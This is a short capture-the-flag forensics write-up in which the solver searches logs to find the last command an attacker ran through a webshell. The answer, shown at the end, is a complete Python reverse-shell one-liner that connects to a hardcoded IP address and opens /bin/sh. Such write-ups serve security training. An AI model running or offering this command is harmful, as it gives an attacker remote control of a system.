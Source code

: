 # Blue's Clues 6/8: Discovery
> Is that... a webshell?

> We can see the commands that were executed by the attacker. However, we don't see any command hinting at the creation of the rogue user in gitlab. There must be an intermediary step.

> What is the last command executed by the webshell?

> Flag format: <decoded_command> Not case sensitive, but keep special chars.

> Example: ls -latr

## About the Challenge
We need to find the last command executed by webshell

## How to Solve?
By using the same KQL syntax, I searched the logs one by one and check when the attacker stop accessing the webshell. And we found the last command was reverse shell command

![flag](images/flag.png)

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("158.69.62.65",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```